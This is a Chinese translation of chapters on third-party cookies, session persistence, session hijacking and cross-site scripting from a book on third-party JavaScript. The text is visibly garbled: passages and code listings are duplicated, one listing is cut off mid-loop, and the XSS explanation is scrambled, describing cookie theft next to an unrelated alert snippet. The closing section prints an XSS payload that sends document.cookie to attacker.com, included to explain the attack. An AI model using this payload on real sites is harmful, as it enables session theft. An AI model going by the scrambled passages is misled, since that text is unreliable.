尽管在 2002 年成为 W3C 推荐，但只有 Internet Explorer 实现了该协议，且此后开发已停止。由于这些原因，许多人认为 P3P 已经“死亡”，许多热门网站也不提供它。无论你对 P3P 有何看法，事实是如果你计划在 Internet Explorer 中使用第三方 Cookie，你就需要研究它们。当你配置服务器返回有效的 P3P 头部时，Internet Explorer 将允许用户在默认设置向你的域名写入并传输第三方 Cookie。

### 6.1.4 检测 Cookie 是否可用

我们描述了……但这种灾难性的情况并非总是发生。许多浏览器用户默认启用了第三方 Cookie。你能够准确检测用户何时可以和不能设置 Cookie，以便采取相应措施。如果他们可以设置 Cookie，请使用 6.1.1 节中概述的可靠会话模式。如果他们不能设置 Cookie，那么你必须使用我们即将介绍的备用方案。

为了测试浏览器是否可以正确设置 Cookie，你需要一个指向你域名 URL 的 iframe 元素。这可以是一个现有的 iframe——就像你在上一章用作通信通道的那个——但为了演示，我们将创建一个新的 iframe，其唯一目的是告诉我们是否启用了第三方 Cookie。

假设你正在使用 easyXDM 库与此 iframe 进行通信。在你的消费者 JavaScript 代码（执行在发布者网站上）中，你创建一个新的 easyXDM RPC 接口，期望一个远程方法 `testCanWriteCookies`。

```javascript
var rpc = new easyXDM.Rpc(
  {
    remote: "http://camerastork.com/cookies.html"
  },
  {
    remote: {
      testCanWriteCookies: {}
    }
  }
);
```

139

***第三方 cookie***

在 `cookies.html`（这是由 iframe 加载的 URL）中，你需要定义一个相应的 RPC 对象，并暴露 `testCanWriteCookies`。这是一个全局函数（在 iframe 内部），我们将在稍后实现中实现它：

```javascript
var rpc = new easyXDM.Rpc({},
  {
    local: {
      testCanWriteCookies: testCanWriteCookies
    }
  }
);
```

最后，你需要按照代码清单 6.1 所示实现 `testCanWriteCookies` 函数。它的工作原理是尝试使用 `document.cookie` 在你的域名（camastork.com）上创建一个新的 cookie。然后，它会尝试读取该域名上的所有 cookie，并寻找刚刚设置的那个 cookie。如果 cookie 存在——太棒了，浏览器已启用第三方 cookie。如果 cookie 不存在，则浏览器没有启用第三方 cookie。

```javascript
function testCanWriteCookies() {
  document.cookie = 'test=1';
  var allCookies = document.cookie.replace(' ', '');
  allCookies = allCookies.split(';');
  for (var i = 0; i < allCookies.length; i++) {
  ...
}
```


在`cookies.html`（这是由 iframe 加载的 URL）中，你需要定义一个相应的 RPC 对象，并暴露`testCanWriteCookies`。这是一个全局函数（在 iframe 内部），我们将在稍后实现它：

```javascript
var rpc = new easyXDM.Rpc({},
{
  local: {
    testCanWriteCookies: testCanWriteCookies
  }
}
);
```

最后，你需要按照代码清单 6.1 所示实现`testCanWriteCookies`函数。它的工作原理是尝试使用`document.cookie`在你的域名（`camastork.com`）上创建一个新的 cookie。然后，它会尝试读取该域名上的所有 cookie，并寻找刚刚设置的那个 cookie。如果 cookie 存在——太棒了，浏览器已启用第三方 cookie。如果 cookie 不存在，则浏览器没有启用第三方 cookie。

```javascript
function testCanWriteCookies() {
  document.cookie = 'test=1';
  var allCookies = document.cookie.replace(' ', '');
  allCookies = allCookies.split(';');
  for (var i = 0; i < allCookies.length; i++) {
    if (allCookies[i].indexOf('test=1') !== -1) {
      return true;
    }
  }
  return false;
}
```

图 6.4 展示了这种实现。或者，你也可以让提供 iframe 的 HTTP 响应设置这个相同的测试 cookie（使用`Cookie-set`头部）。之后，你必须在 JavaScript 代码中严格检查此测试 cookie 是否存在。但必须处理 HTTP 头部会给这个本就简单的操作增加复杂度。我们主张坚持使用纯 JavaScript 解决方案。

## HTML5 LocalStorage 和第三方 cookie

HTML5 引入了一组 JavaScript API，用于在用户的浏览器上持久化数据。其中最为人知的是`localStorage`，它根据当前源存储数据。那么，可以认为当用户浏览器中禁用了第三方 cookie 时，你可以使用`localStorage`作为 cookie 的替代方案来存储用户的会话标识符。

在某个时候，这种方法是成功的。但浏览器厂商随后将这种绕过方法识别为隐私漏洞，现在当禁用第三方 cookie 时也会禁用`localStorage`。不过，尝试得不错！

代码清单 6.1：测试 cookie 是否启用的 JavaScript

| 通过赋值给`document.cookie`尝试写入测试 cookie | 获取当前 URL 上可用的所有 cookie 列表 | 如果其中一个 cookie 匹配测试 cookie，说明写入成功 |
| :--- | :--- | :--- |

www.it-ebooks.info

140

第 6 章

**认证与会话**

140

正如你在上一节中学到的，有三个浏览器即使在禁用第三方 cookie 时也会向第三方 URL 发送预存的 cookie：Internet Explorer、Safari 和 Opera。问题在于如何让这些 cookie 传输到那里；当禁用第三方 cookie 时，你无法从应用程序中创建新的 cookie。如果你能找到某种方法在你的应用程序域名上创建新的 cookie，那么你就没事了。但如何做呢？

### 6.2 设置第三方 cookie

此时，你应该已经拥有检测第三方 cookie 是否禁用的所有工具。但如果它们被禁用了呢？接下来，我们将查看在第三方 cookie 不可用时持久化会话的几种解决方法。

[图 6.4 图表]
- 从 `publisher.com` 下载主页面。（页面上的 JavaScript 通过 `easyXDM` 创建一个包含`cookies.html`的 iframe。iframe 内部的代码尝试设置 cookie，然后检查 cookie 是否实际上存在。`easyXDM`调用将结果返回给原始脚本。现在我们知道是否允许第三方 cookie 了。）
- `camerastork.com` -> `cookies.html` -> 检查 cookie。记住，`easyXDM`使用`postMessage`进行通信。你可以使用外部文档来检测当前浏览器是否禁用了第三方 cookie。

www.it-ebooks.info

141

**设置第三方 cookie**

我们将查看在禁用第三方 cookie 的情况下设置 cookie 的两种替代方法。第一种依赖于在你的应用程序打开的新窗口中设置 cookie，此时这些 cookie 被视为第一方 cookie。第二种方法是一种使用 iframe 和表单设置 cookie 的特殊情况场景，但仅在 Safari（桌面版和移动端）中有效。之后，我们将为 Chrome 和 Firefox 讨论 cookie 的替代方案，因为这些浏览器即使在 cookie 存在时也不会传输它们。

### 6.2.1 使用专用窗口

正如你可能从早之前记得，第三方 cookie 只有在从与用户请求的文档不同的域名进行设置或读取时，才被视为第三方 cookie。如果浏览器恰好直接访问你的域名（`camastork.com`），那么你就可以自由设置 cookie——你不再是第三方了。所以，你只需要让用户直接访问你的页面，你就大功告成了。

### 打开新窗口

实现此点的最佳方法是从你的应用程序使用 JavaScript 打开的新窗口中提供你的认证/登录页面（例如`camerastork.com/login`）。因为这是一个新窗口，浏览器会将此视为第一方请求，你可以自由持久化 cookie。当用户完成操作后，你可以使用窗口消息 API（如`postMessage`，或者为了更广泛的兼容性使用`easyXDM`）将新窗口的用户详情传回应用程序。对于此示例代码，假设大多数操作都在新窗口中完成。通过使用 JavaScript 打开的新窗口中提供你的认证/登录页面（例如`camerastork.com/login`）。当用户完成后，你可以使用窗口消息 API（如`postMessage`或`easyXDM`）将用户详情从新窗口传回应用程序。对于此示例代码，假设大多数操作在新窗口完成。

```javascript
var popup;

function openWindow(e) {
  e.preventDefault();
  popup = window.open('http://camerastork.com/login.html', '_blank', 'width=460,height=225');
}

var login = document.getElementById('login');
if (login.addEventListener) {
  login.addEventListener('click', openWindow, false);
} else if (login.attachEvent) {
  login.attachEvent('onclick', openWindow);
}
```

代码清单 6.2：在 iframe 中执行的代码打开新窗口

www.it-ebooks.info

142

第 6 章

**认证与会话**

现在，当用户点击登录链接时，新窗口将打开。而且这不应该是任何旧的登录页面。最好在一个窗口中——理想情况下是小小的。这并不意味着它必须很难看。图 6.5 展示了 Camera Stork widget 的登录页面外观。看起来不错，对吧？

### 避免弹出拦截器

今天，每个网络浏览器都内置了弹出拦截器，这意味着如果你不小心，浏览器会阻止你通过 JavaScript 打开窗口。为了避免这种情况，请始终根据用户操作的直接结果（例如鼠标点击或表单提交）打开新窗口。如果用户触发操作到你打开窗口之间存在延迟，大多数浏览器会将这种行为视为恶意并拦截该操作。

现在，假设用户输入用户名和密码，并点击登录按钮，该表单将 POST 到你的服务器。你的服务器端代码将验证用户名和密码，生成新会话并将生成的会话 ID 分配给 cookie。它还将作为响应的一部分渲染一个新的 HTML 页面，其目的是将认证传回运行在父 iframe 内的应用程序代码（参见图 6.6）。

#### 通信成功的认证

要在 iframe 和窗口对象之间发送消息，你需要某种窗口消息 API。为了简单起见，我们将向你展示如何使用`window.postMessage`实现这一点（在生产环境中，你可能希望使用`easyXDM`或类似的库以获得更好的浏览器兼容性）。

**143**

**设置第三方 cookie**

要使用`postMessage`向 iframe 发回消息，你可以使用以下代码：

```javascript
window.opener.postMessage(
  JSON.stringify({success: true, name: 'John Doe'}),
  'http://camerastork.com'
);
```

除非 iframe 实际上在监听此消息，否则什么都不会发生。你需要在窗口打开之前，先在父级 iframe 中定义一个`postMessage`监听器函数。当监听器接收到身份验证成功的消息时，它将关闭弹出窗口，因为它已经完成了使命，不再需要。这些步骤将在接下来的文中实现。

从 `camerastork.com` 下载的登录表单

Camera Stork 服务器检查用户名和密码

注意：同源策略防止 publisher.com 偷取密码！

存储 cookie 以指示用户已登录；通知主窗口使用 `postMessage` 更新显示

OK

`camerastork.com`
`camerastork.com`
用户名
密码
`JohnDoe`
**.....**
登录

`camerastork.com`
用户名
密码
登录

`camerastork.com`
点击登录打开新窗口


**欢迎，John Doe!**

`publisher.com`
登录
`publisher.com`


图 6.6 使用专用窗口在 `camerastork.com` 上验证用户

www.it-ebooks.info

**144**

第 6 章

**身份验证与会话**

```javascript
function onMessageReceived(e) {
  var response = JSON.parse(e.data);
  if (response.success && popup) {
    popup.close();
    renderUserName(response.name);
  }
}

if (window.addEventListener) {
  window.addEventListener('message', onMessageReceived, false);
} else if (window.attachEvent) {
  window.attachEvent('onmessage', onMessageReceived);
}
```


搞定——你完成了。即使禁用了第三方 cookie，你也成功地在`camerastork.com`域名上设置了 cookie。请注意，虽然这个示例假设你的应用程序代码运行在托管在你域名的`iframe`内，但相同的通用解决方案也适用于在发布者网站上执行的代码。唯一的区别是`postMessage`的`origin`参数需要是发布者的域名（或`'*'`），而不是`camerastork.com`。

值得注意的是，像这样在新窗口中设置 cookie 在每个浏览器中都有效。这只是对于 Firefox 和 Chrome 来说价值有限，因为即使成功设置了 cookie，这些浏览器也不会在随后的请求中发送它们。正如我们之前建议的，这些浏览器需要单独的变通方案，我们将在本章稍后部分介绍。

## 6.2.2 `Iframe` 变通方案（仅限 Safari）

假设你不喜欢打开新窗口。事实上，你坚持要提供一种不需要重定向到登录表单的用户身份验证体验。如果是这样，存在一种特定场景，你的应用程序可以直接从`iframe`元素执行身份验证。这种情况非常特殊，只影响单一浏览器！

事实证明在 Safari（包括 iOS 上的 Safari）中，你可以从外部`iframe`元素*仅*使用标准表单设置第三方 cookie。Safari 会拒绝使用`document.cookie`或`XmlHttpRequest`设置 cookie，但允许使用 HTML 表单进行请求。曾经这一点可以通过 JavaScript 自动完成，但 Safari 的最新更新要求此表单提交由用户发起——否则任何恶意脚本都用户不知的情况下设置第三方 cookie。

在理想情况下，你会使用特性检测来检测用户的浏览器是否支持这种行为。遗憾的是，这将需要用户手动提交表单查看 cookie 是否成功持久化。相反，我们建议使用 user-agent 嗅探来检测 Safari。

**Listing 6.3**

`postMessage`监听器等待弹出窗口的成功消息

`www.it-ebooks.info`

**145**

### 设置第三方 cookie

或者——更好的方法是测试是否存在 Safari 属性。由于任何浏览器都可以“伪造”user-agent 字符串，因此属性测试更受青睐。这是一个判断当前浏览器是否为 Safari 的函数，只有 Safari 会返回这个特定值：

```javascript
function isSafari() {
  return Object.prototype.toString.call(window.HTMLElement) === "[object HTMLElementConstructor]";
}
```

有了这个函数，你决定使用基于`iframe`的解决方案还是新窗口解决方案的代码（如我们在 6.2.1 节中介绍的）可能如下：

```javascript
function initiateLogin() {
  if (isSafari()) {
    showIframeForm();
  } else {
    openLoginWindow();
  }
}

var login = document.getElementById('login');

if (login.addEventListener) {
  login.addEventListener('click', initiateLogin);
} else if (login.attachEvent) {
  login.attachEvent('onclick', initiateLogin);
}
```


剩下的就是在你的 iframe 内部渲染表单。棘手的地方在于，你无法在与你的组件共享的同一个 iframe 中渲染表单。否则，当表单提交时，整个 iframe 将重新加载。你可以在 iframe 返回时渲染相同的内容，但 iframe 会短暂空白，这是不可取的。

解决方案是什么？在主顶层 iframe 内部嵌入第二个用于显示身份表单的 iframe（见图 6.7）。

现在，当用户提交登录表单时，只有登录 iframe 会刷新。父 iframe 将保持不变。由于这是用户发起的普通表单 POST，即使禁用了第三方 cookie，HTTP 响应中设置的任何 cookie 都会在 Safari 中持久化。希望到书的这里，你已经知道如何创建一个 iframe 并将其指向外部网站——在本例中为`camerastork.com`。此外，由于 iframe 是一个窗口对象，你可以使用新窗口示例（见 6.2.1 节）中的相同代码，通过 Message API 在登录 iframe 和父级 iframe 之间发起并接收消息。

### Listing 6.4

登录时决定使用的持久化技术

www.it-ebooks.info

**146**

# 第 6 章：身份验证与会话

## iframe 身份验证被认为有害

通过外部 iframe 登录似乎是理想的用户体验，但它有一个巨大的缺陷：用户无法轻松验证表单的来源。恶意方可能会模仿你的身份验证表单，并欺骗毫无防备的用户披露密码。在新窗口中展示身份验证表单，用户可以清楚地看到来源 URL 和安全提示（如果你的身份验证页面支持 HTTPS——它应该是——我们将很快介绍）。

为什么要展示这个示例？因为这是一个很酷的 hack，我们想分享它——至少在浏览器层面。但我们的建议是用专用窗口设置第三方 cookie。这可能不是最好的用户体验，但它是最安全、最防呆的技巧。

## 6.2.3 Chrome 和 Firefox 的单页会话

到目前为止，我们讨论了 Internet Explorer、Opera 和 Safari 的变通方案。该列表中缺失了两个主要的浏览器：Chrome 和 Firefox。如果禁用了第三方 cookie，它们将不会向第三方域名传输 cookie。如今，这两个浏览器占了所有网络用户的 50% 以上（见`http://en.wikipedia.org/wiki/Usage_share_of_web_browsers`）。如果这些用户禁用了第三方 cookie，他们将无法与第三方应用程序持久化会话。

如果没有持久化，你只有一个选择：在用户留在页面期间，在第三方应用程序中临时存储会话 ID。这意味着当你验证用户身份时，不是将用户的会话 ID 存储在 cookie 中，而是将会话 ID 持久化在应用程序的变量中。

顶层框架  
身份验证框架


用户名  
密码  
登录

Mikon E90 数字单反相机

图 6.7 在主顶层 iframe 内部嵌入第二个独立的 iframe 用于显示身份表单，允许用户提交表单而无需刷新父 iframe。

www.it-ebooks.info

**147**

## 会话安全

当用户想要执行需要身份验证的操作（例如，为产品评分）时，你会将会话 ID 作为向服务器发送的 HTTP 请求的 GET 或 POST 参数传递。

与之前一样，你的服务器会验证会话 ID，如果成功，则执行请求的操作。

由于这些会话仅在用户留在页面期间保留，因此体验并不十分良好。如果用户刷新页面，或者访问你托管在不同发布者网站上的应用程序，他们将重新进行身份验证。但这比完全拒绝这些浏览器用户的身份验证要好得多。

值得注意的是，如果你在使用单页会话，那么此会话 ID 应该安全地保留在托管于你域名下的一个外部 iframe 之后。如果你将会话 ID 存储在发布者页面上执行的代码中，可以想象恶意发布者可能会访问该变量并窃取访问者的会话。窃取用户的会话 ID 可能允许发布者在你的应用程序中伪装成该用户。

我们刚刚描述的场景是`会话劫持`（session hijacking）的一个例子。第三方会话，无论是使用第三方 cookie 持久化，还是在单页上临时保留，都容易通过多种方式被劫持。让我们深入探讨。

# 6.3 会话安全

会话劫持是指恶意方获取用户与 Web 服务之间的会话访问，以便发送未经授权的请求。我们在上一节中概述了会话的这样一个漏洞：如果你将该 ID 存储在发布者页面上下文的变量中，恶意发布者就可以获取用户的会话 ID。这只是一种情况，而且可能是罕见的。

更有可能的是恶意方通过 HTTP 嗅探获取用户的会话。到目前为止，我们一直在描述一个使用 HTTP 传输会话的应用程序，使用 cookie 或作为 GET 或 POST 参数。HTTP 是一种未加密的传输协议，因此在某些情况下，完整的请求体可以被未经授权的部分以明文读取。

这种情况在人们使用未加密的 Wi-Fi 网络时最常见，许多此类网络位于咖啡馆、机场，甚至是你当地的图书馆。在这些网络上，你的计算机和网络之间的所有网络请求都以明文传输。这意味着网络上的其他用户可以记录并检查你的 HTTP 流量，并提取任何私有的会话信息供其使用。甚至有自动化工具可以识别和劫持热门 Web 目的 cookie。其中最流行的是一个名为 Firesheep 的 Firefox 插件，⁴ 它将向你列出在未加密网络上当前登录 Facebook、Flickr 以及其他热门 Web 服务的用户列表，并让你只需点击按钮即可以这些用户的身份登录（见图 6.8）！

这种漏洞对于第三方应用程序来说更为糟糕。为了让 Firesheep 识别出网络上可以被劫持的会话，用户必须先访问一个流行的 Web 服务（Firesheep 会嗅探 HTTP 请求）。如果用户不访问该网站，就没有危害。但第三方应用程序是分布式的，可以安装在大量的网页属性中（例如，Facebook 的“赞”小部件似乎无处不在）。在这些情况下，只需请求此类应用程序的单个实例，无论它们位于何处，都可能在网络上以明文形式传输 cookie。你的会话被劫持的概率变得高得多了。

我们开始描绘一幅阴暗的画面，但不要担心，希望并未完全破灭。你可以采取一些措施来消除会话劫持，或者至少显著地减少其影响。我们将首先查看如何使用 HTTPS 加密到你应用程序的流量。然后我们将探索多级身份验证，即生成多个对应于不同级别操作的会话令牌。首先是：HTTPS。

**148**

## 6.3.1 HTTPS 与安全 cookie

根据设计，HTTP 使用明文`传输控制协议`（更广为人知的即`TCP`）以明文传输所有数据。这导致了我们刚刚描述的漏洞，攻击者可以在未加密的 Wi-Fi 网络上嗅探 cookie。它还可能导致中间人攻击（MITM）攻击，在这种攻击中，攻击者自己位于受害者（客户端和服务器）之间的网络上，然后拦截并转发受害者之间的消息，使得他们永远察觉不到自己的通信线路已被破解。就像数据包嗅探一样，在 MITM 攻击中，攻击者只需要观察未加密的 HTTP 流量即可识别并劫持包含会话信息的 cookie。

这类攻击的解决方案是`HTTPS`（`HTTP` Secure），它是 HTTP 和传输安全层（TLS）加密协议的结合。它的工作原理如下：



图 6.8

Firesheep 是一个 Firefox 浏览器插件，让在未加密网络上劫持用户会话变得简单。

**149**

## 会话安全

与 HTTP 类似，但它将所有数据通过安全隧道路由，从而防止你的数据被未经授权的部分拦截和读取。结合安全 cookie（这些 cookie 仅通过 HTTPS 传输），你可以有效地阻止会话劫持。

设置一个安全 cookie 与普通 cookie 一样，是使用 Cookie 头部完成的。最后一个参数`secure`，是它们的区别之处：

```http
Set-cookie: sessionid=66d2520a7a3c6dac658;; secure;
```

此后，浏览器将向`https://camerastork.com`发送此 cookie。通过声明它是安全 cookie，浏览器将不会向任何非 HTTPS 请求传输此 cookie。基本上，在设置 cookie 时要注意`secure`标志，并对应该通过 HTTPS 传输的 cookie 使用它。

如果你需要通过 JavaScript 设置安全 cookie，`document.cookie`使用与 Set-cookie 头部相同的语法：

```javascript
document.cookie = 'sessionid=66d2520a7a3c6dac658; secure';
```

理想情况下，你应该到处使用 HTTPS。但 HTTPS 可能是一项复杂的工程，特别是对于高流量的分布式应用程序，如第三方脚本。如果你是一个小型业务，且短期内不打算扩展 HTTPS，那么有一种替代方法可以减少会话劫持的影响，而无需为每个请求使用 HTTPS：多级身份验证。

## 6.3.2 多级身份验证

会话劫持是 Web 应用程序面临的现实，但对某些应用程序的影响比其他应用程序更大。例如，如果攻击者获取了小型在线论坛用户的会话，他们可能会以用户的身份发表损害性言论。这无疑是一个糟糕的情况，但也许是可以接受的风险。对比银行应用程序——攻击者获取了用户的银行会话，理论上可以清空他们的银行账户，利用其中的信息进行身份欺诈，或执行任何导致财务损失的操作。这种安全漏洞可能会导致一家公司的倒闭。

让我们回到 Camera Stork 的例子。如果你还记得，你正在为`camerastork.com`构建一个小部件，这是一家现有的在线摄影商店。让我们想象 Camera Stork 用户在`camerastork.com`上存储他们的信用卡信息，这样他们每次购买新的滤镜过滤器时就不需要反复输入详细信息了。缺点是，如果攻击者获取了`camerastork.com`上的用户会话，他们可能可以使用存储的信用卡信息为自己订购产品。你绝对不希望攻击者获取这些会话信息。

将在`camerastork.com`网站上购买产品的行为，与通过 Camera Stork 产品小部件（widget）可以执行的身份验证操作进行对比——目前，该部件仅用于提交产品评论。

用户显然可以采取两类潜在操作：一类是造成财务损失的（在主`camerastork.com`网站上），另一类是有些无关紧要的（在小部件上评价产品）。为什么要使用同一个会话来执行这两组操作呢？

这就是多级身份验证（multilevel authentication）背后的思想。你不再使用一个会话来授权你的应用程序中所有可能的操作，而是生成多个对应不同身份验证级别的会话令牌（session tokens）。例如，一个令牌可以用于相对低风险的操作，如通过 Camera Stork 产品小部件评价产品；另一个令牌则对应于更敏感的操作，例如使用存储的信用卡号购买产品。

单单来看，两个会话令牌的安全性并不比单个会话令牌高；高级别令牌被盗取的概率和低级令牌一样。当你想要使用 HTTPS 服务于应用程序敏感部分（及其 cookie），而使用明文 HTTP 服务于应用程序的低风险部分时，多级身份验证就变得很有价值。但你为什么要这样做呢？

如图 6.9 所示，理想情况下，你应该对所有处理私有数据的请求使用 HTTPS。Web 开发社区建议不要低于此标准。但残酷的现实是，HTTPS 需要额外的服务器开销，在巨大的规模下，为所有的应用程序请求提供 HTTPS 可能是一项巨大的工程挑战。例如，Facebook 尽管拥有超过十亿用户，直到 2012 年 11 月才向所有用户提供 HTTPS。

图 6.9 多级身份验证对不同类型的操作使用不同的 cookie，其中最敏感的操作使用安全 cookie。

总结在此之前，Facebook 仅将 HTTPS 作为一种用户必须自行开启的可选设置。并非每家公司都如此，但在开发第三方应用程序时，你可能会发现自己正在处理巨大的规模，多级身份验证可以通过将低风险请求划分到未加密的 HTTP 来帮助你的 Web 应用程序维持。

会话劫持（Session hijacking）并不是为了吓唬你的虚构怪兽——它是真实的，而且对第三方应用程序构成了更大的威胁。最终，没有比在所有传输会话信息的地方使用 HTTPS 更好的措施了。但如果你无法这样做，在多级身份验证中使用某种程度的 HTTPS 将显著降低你的服务遭受会话劫持的风险，而不会牺牲多少性能。

对第三方应用程序进行身份验证和会话持久化实现起来很困难，但并非不可能。困难在于每个浏览器处理第三方 cookie 的方式不同，你需要提供不同的解决方案来支持所有它们。对于 IE、Opera 和 Safari（如果 cookie 已经设置，它们会将其发送到第三方域名），你始终可以打开一个指向你域名的登录页的新窗口，并在那里设置 cookie。Safari 甚至可以使用 iframes，只要会话 cookie 是设置在对标准 POST 请求的响应中即可。Chrome 和 Firefox 是对第三方 cookie 限制最严格的浏览器，它们必须处理仅持续到用户在页面上停留期间的会话。当然，仅仅设置和发送会话 cookie 是不够的。你还需要以这种方式传输 cookie，使其不会被恶意第三方轻易窥探。

# 第 7 章：安全性

在之前的章节中，你学习了如何创建一个功能完善且可配置的第三方 JavaScript 应用程序，如何让该应用程序与你的服务器通信，以及如何验证用户身份以解锁私力和半私有功能。本章介绍了涉及第三方 JavaScript 应用程序的另一个重要主题——你应用程序的安全。

在早期，Web 相当简单——它是一个互联网站的系统。这些网站代表普通的文档，并且大部分是静态的。Web 服务器的工作是从文件系统中检索文档并发送到浏览器。浏览器在这一过程的客户端工作，接收文档并将其显示给用户。网站很少甚至不验证用户身份，因为 Web 本质上被设计成共享超文本文档的开放系统。在那个纯真时期，任何安全威胁都与 Web 服务器的漏洞有关，而服务器是攻击者的主要目标。

## 本章涵盖

- 跨站脚本（XSS）
- 跨站请求伪造（XSRF）
- 发布者仿冒、点击劫持和拒绝服务

## Cookie、会话与会话窃取

今天，Web 完全不同了。我们不仅有涵盖从喜爱的新闻来源到个人健康记录的所有复杂 Web 应用，还有运行在其他 Web 属性内部的 Web 应用程序——或者说第三方 JavaScript 应用程序（本书的主题）。由于现代 Web 应用程序处理敏感数据，Web 不再是那个共享文档的开放系统，这极大地改变了安全格局。出现了针对浏览器的新安全威胁，恶意第三方可以破坏你的 Web 应用程序，窃取用户的个人信息，进行财务欺诈并执行未经授权的操作。

当涉及到第三方 Web 应用安全时，每个人的风险都很大。用户信任你处理数据，发布者将其属性的密钥交给你，希望你负责任地使用，而你自己的声誉也处于风险之中。

在本章中我们将带你了解对第三方 JavaScript 应用程序特别关注的漏洞，并向你如何防止它们。我们将从快速回顾会话和 cookie 开始，因为你很快就会学到，这些是许多攻击的首要目标。然后我们将深入研究两个主要漏洞：跨站脚本（XSS）和跨站请求伪造（XSRF）。之后，我们将处理既针对又由托管你应用程序的发布者实现的漏洞。

## 7.1 Cookie、会话与会话窃取

在进入正题之前，让我们快速回顾 cookie 在 Web 应用程序中的作用。如果你还记得，cookie 是浏览器在 HTTP 请求之间持久化的一小部分数据。这是在原本无状态协议（HTTP）中保留状态的一种简单方法。

Web 服务器通过在 HTTP 响应中返回`Set-Cookie`头部来设置 cookie。cookie 内容可以是任何不包含空格的字符串，但通常是一组键值对。考虑以下示例 HTTP 响应，它演示了设置一个名为`sessionid`的 cookie：

```http
HTTP/1.1 200 OK
Date: Wed, 28 Sep 2011 14:33:37 GMT
Content-type: application/json
Set-cookie: sessionid=66d2520a77a3c6dac4db658c6dd13061
```

持久化用户会话是 cookie 在 Web 应用程序中的主要用途。在这种情况下，当用户登录时，服务器生成一个唯一令牌来标识用户与 Web 服务的会话，并将其作为 cookie 存储在浏览器中。然后，当用户向服务器发送任何后续 HTTP 请求时，浏览器会将存储的`sessionid` cookie 作为请求的`Cookie` HTTP 头部的一部分发送给服务器：

**154**

## 第 7 章：安全性

```http
GET /products/1337.json HTTP/1.1

Host: camerastork.com

Accept: application/json

Cookie: sessionid=66d2520a77a3c6dac4db658c6dd13061
```


当服务器接收到包含此 cookie 的请求时，它会查找与传递的 `session token` 匹配的本地用户记录。如果找到了用户，服务器会将该用户视为请求方并返回适当的内容。这一过程会持续，直到 cookie 过期或被删除——无论是由用户删除，还是由服务器在后续的 `Set-Cookie` Header 中删除。

浏览器会话（session）的主要问题是它们由存储在 cookie 中的单一值——`session token` 来表示。如果攻击者能够获取该 `session token`，他们就可以轻松以该用户的身份对受影响的 Web 服务进行验证。之后，攻击者可以使用该用户的身份执行任何操作，例如访问或操纵其私有数据。显然，这是一个灾难性的场景，但在不物理窃取用户计算机的情况下，攻击者是如何获取用户 cookie 的呢？

在第 6 章中，我们介绍了一个 cookie 可能会被恶意方窃取或劫持的场景：使用中间人攻击（MITM）。这种攻击利用了普通 HTTP 请求以明文传输数据的这一事实，导致 cookie 容易受到数据包嗅探的影响。这意味着在未加密的网络上（如你家附近咖啡馆的免费 Wi-Fi 网络），恶意方可以扫描包含 `session cookie` 的 HTTP 请求流量并复制它们。

在该章中，我们还告诉过，防御 MITM 攻击的最佳方法是使用 HTTP Secure (HTTPS) 对服务器和浏览器之间的所有 HTTP 请求进行加密。由于 HTTP 请求被加密，它们不再容易受到数据包嗅探的影响，这几乎消除了 MITM 威胁。

尽管 HTTPS 受到极大推崇且是防御 MITM 攻击的有力手段，但它并不是所有 Web 应用安全威胁的万能药。MITM 只是攻击者获取用户 cookie 的途径之一。遗憾的是，在你的 Web 应用获得安全批准印章之前，还有许多你需要解决的漏洞。但先不要急着按弹射座椅——我们将深入引导你了解这些漏洞，并在过程中提供解决方案和防御技术。

作为开始，我们将深入探讨当今影响 JavaScript 应用的最常见的漏洞：跨站脚本。

## 7.2 跨站脚本

如果说 Web 应用开发者有一个常见的感到尴尬的来源，那就是跨站脚本——或者正如大家常说的 XSS。这种特定的漏洞导致了许多不同的成功攻击——从搞笑的恶作剧（如让 Facebook 的样式看起来像 `MySpace`）²，到可能导致灾难性的违规行为（如金融欺诈）。

**跨站脚本**是一种漏洞，允许攻击者将自己的代码注入到其他用户查看的网页中。这到目前为止现代 Web 应用（包括第三方 JavaScript 应用）中最常见的攻击来源。根据赛门铁的《互联网安全威胁报告》³，XSS 占了作者在 2007 年记录的所有安全漏洞中令人震惊的*80%*之几。

在本节中，我们将向你展示 XSS 攻击的样貌，解释它们的工作原理，并展示如何防御你的应用程序免受此类攻击。让我们开始吧。

### 7.2.1 XSS 攻击

攻击者是如何注入代码的？通常，当你的应用程序没有充分过滤输入时，攻击者就可以通过这种方式向页面注入他们的代码。例如，考虑这种情况：攻击者向页面注入 HTML，导致浏览器向攻击者的服务器（`http://attacker.com`）发起请求。由于 HTML 被附加到 DOM，攻击者只需要向页面注入 HTML 就能获取用户的 cookie。

在`<示例代码>`中，攻击者注入 JavaScript 到 HTML，页面就会显示一个显示“Hello, World”的警告框。

为了实现这一点，攻击者只需要使用 `Image` 对象来获取用户的 cookie。仅仅获取用户的 cookie 是远远不够的，攻击者需要通过 JavaScript 注入 HTML，页面就会显示一个显示“Hello, World”的警告框：

```
太棒了！我一直都在用。<script>alert("Hello, World");</script>
```

这段代码做了什么？每当此评论被加载时，它都会创建一个 `Image` 元素，但在将其附加到 DOM 之前停止了。未附加到 DOM 的图像对用户来说是不可见的；它们只存储在内存中而非其他地方。尽管不可见，浏览器仍然会发起 HTTP 请求下载对应的图像文件，这正是攻击者需要的。这里的 `src` URL（`attacker.com`）根本不是图像，而是攻击者托管的一个服务器端，用于收集被窃取的 cookie。你可以看到 cookie 数据本身是通过目标 URL 的查询字符串传输的。当这段代码被插入 Camera Stork 网站并被游客请求时，攻击者只需要监控他们的日志并存储收到的所有会话标识符。阴毒。

通常，会话标识符没有附加到特定的计算机，因此攻击者完成计划的唯一方法是将获取的任何标识符作为自己的 cookie 数据。之后，对于你的 Web 服务器来说，攻击者变成了一个经过验证的用户，有权限执行他们想要的操作。

正如你可能注意到的，这种攻击实际上不会被用户察觉。与之前的“Hello, World”示例不同，用户体验并没有变化。

图 7.1：攻击者通过 XSS 漏洞窃取用户的 session

1. 攻击者向 Web 应用中注入恶意 JavaScript
2. 用户访问受影响的应用程序，执行注入的代码
3. 执行的 JavaScript 将用户的 `session cookie` 传输到攻击者的服务器
4. 攻击者现在可以通过用户的 `session` 执行恶意操作

¹ 除非他们成功解密。² 这是一个真实故事。³ 你可以在网站上找到这份报告：`m.bz/RXI` ⁴ 浏览器下载脱离 DOM 的图像并不是 bug。⁵ 这种行为有很多用例，例如为了在 HTML5 的 `canvas` 元素中使用图像。⁶ 2005 年，Chris Putnam 和他的几个朋友为 Facebook 写了一个蠕虫，利用了社交网络的漏洞。Chris Putnam 后来被 Facebook 聘用了。

这是一个攻击者注入到产品评论中的示例代码段：

```
太棒了！我一直都在用。
<script>
var i = new Image();
i.src = "http://attacker.com/?c=" + document.cookie;
</script>
```

